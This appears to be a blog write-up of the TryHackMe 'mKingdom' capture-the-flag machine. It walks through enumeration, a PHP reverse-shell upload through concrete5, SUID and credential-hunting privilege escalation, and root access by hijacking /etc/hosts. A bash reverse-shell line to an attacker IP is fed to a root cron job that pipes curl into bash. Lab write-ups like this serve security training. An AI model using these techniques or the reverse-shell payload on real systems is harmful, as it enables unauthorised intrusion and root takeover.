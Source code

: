 ```yaml
---
layout: post
title: mKingdom Writeup (TryHackMe)
author: wizarddos
category: writeups
excerpt_separator: <!--more-->
---
```

Wanna watch a video?
<iframe width="560" height="315" src="https://www.youtube.com/embed/2x0G4RzY2Is?si=YxhnX0GOqCLkK789" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

Another day, another machine. This time we'll try to solve [mKingdom](https://tryhackme.com/r/room/mkingdom)
This is a really new machine for me, as it was published a day or two ago, so off we go.
<!--more-->

### Enumeration

Start with port scan

```
$ rustscan -a $IP -- -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \\ |  `| |
| .-. \\| {_} |.-._} } | |  .-._} }\\     }/  /\\  \\| |\\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: <http://discord.skerritt.blog>           :
: <https://github.com/RustScan/RustScan> :
 --------------------------------------
😵 <https://admin.tryhackme.com>

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.52.202:85
[~] Starting Script(s)
[...]
PORT   STATE SERVICE REASON  VERSION
85/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0H N0! PWN3D 4G4IN

```

Only one port open? All right, we're going to figure something out.

### Web Enumeration

The index page itself had no interesting information, so I brute-forced directories with `gobuster`

```
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u "<http://$IP:85/>" -x html,js,txt,php -t 20
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://10.10.52.202:85/>
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,js,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
[...]
/app                  (Status: 301) [Size: 312] [--> <http://10.10.52.202:85/app/>]
/index.html           (Status: 200) [Size: 647]
/index.html           (Status: 200) [Size: 647]
/server-status        (Status: 403) [Size: 292]
Progress: 23080 / 23085 (99.98%)
===============================================================
Finished
===============================================================

```

There's `/app` directory - let's visit it

`/app` has just a button, but when we click it, we get redirected to a blog running `concrete5` CMS

Wappalyzer gave us the version - `8.5.2`

### Web Exploiting

I was looking for some exploits online and I've found [this report](https://vulners.com/hackerone/H1:768322)
But it requires a user, which we don't have yet

Yet bit of brute-forcing gave me creds `admin:password`

Now it's time to follow that report - Go to navbar -> `System & Settings` -> `Files` -> `Allowed File Types`
Then edit that input and add `php`

Now go to `Files` in the same nav and upload PHP reverse shell - like the one from [`pentestMonkey`](https://github.com/pentestmonkey/php-reverse-shell)

After upload we see the link - set up a netcat listener

```
$ nc -lvnp 1337

```

Now visit that link and we've got the shell

### Privilege escalation pt.1 - User `toad`

Stabilize your shell with Python.

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

```

Now I see that `cat` has SUID permissions as `toad`

```
$ find / -type f -perm -04000 -ls 2>/dev/null
[...]
-rwsr-xr-x 1 toad root 47K Mar 10  2016 /bin/cat
[...]

```

Quick trip to `GTFOBins` assured me that I can read files in `toad` home dir - like `.bashrc`

It gave me something

```
$ /bin/cat /home/toad/.bashrc

[...]
export PWD_token='[TOKEN]'

```

After decoding I got something
Let's save it. It might be useful one day

`LinPeas` gave me as well

```
╔══════════╣ Searching passwords in config PHP files
            'password' => '[REDACTED]',
const USER_CHANGE_PASSWORD_URL_LIFETIME = 7200;
const USER_PASSWORD_RESET = 24;
const UVTYPE_CHANGE_PASSWORD = 1;
            'password_credentials' => t('Password Credentials'),

```

And it's the password for `toad`

```
$ su toad
Password: [REDACTED]

```

### Privilege Escalation pt.2 - User `mario`

Turns out `PWD_TOKEN` which we've found in `/home/toad/.bashrc` is mario's password

Time for root!

### Privilege Escalation pt.3 - Root

Running `pspy` gave me something - every interval some process sends an http request to the domain

```
2024/06/15 17:24:01 CMD: UID=0     PID=12304  | curl mkingdom.thm:85/app/castle/application/counter.sh
2024/06/15 17:24:01 CMD: UID=0     PID=12303  | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log

```

We can "hijack" the domain and put in this `counter.sh` another reverse shell as `/etc/hosts` allows us to write something in it

```
$ ls -la /etc/hosts
ls -la /etc/hosts
-rw-rw-r-- 1 root mario 342 Jan 26 19:53 /etc/hosts

```

Let's create a payload first
We need following directory structure

```
/app
  /castle
    /application

```

And inside `application` a file called `counter.sh` with reverse shell

```
bash -i 1>& /dev/tcp/[YOUR IP]/1338 0>&1

```

Now, go back 3 directories and start python web server on port 85

```
$ cd ../../../
$ python3 -m http.server 85

```

After all, in another terminal set up a `netcat` listener

```
$ nc -lvnp 1338

```

Coming back to attacked machine - replace the contents of `/etc/hosts` with an entry for `mkingdom.thm` pointing to your IP

```
$ echo "[YOUR IP]      mkingdom.thm" > /etc/hosts

```

After a while, root shell should appear in our `netcat` listener

```
# whoami
root

```

And that's it - machine pwned!

### Little annotation to flags

Because `cat` has `toad` user as its owner and has SUID bit set, we can't read any flag using it
Luckily `vi` works - use it to read the flags. You can exit it by typing `:q`

## Conclusion

It was tough, I'll be realistic

There was a lot of dead ends and I've struggled to solve it for a while
I'd rate it more as `medium` rather than `easy`, even though mostly it was pretty straight forward

Remember, enumeration is key and don't forget about `pspy`

See you next time!
